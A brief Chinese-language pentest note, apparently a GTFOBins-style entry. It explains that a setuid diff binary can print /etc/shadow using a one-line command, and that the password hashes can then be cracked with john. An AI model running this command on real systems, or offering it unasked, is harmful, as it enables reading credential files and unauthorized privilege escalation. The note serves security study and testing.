 # diff

`diff` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
diff --line-format=%L /dev/null /etc/shadow
```


然后使用`john` 对 hash 进行破解.
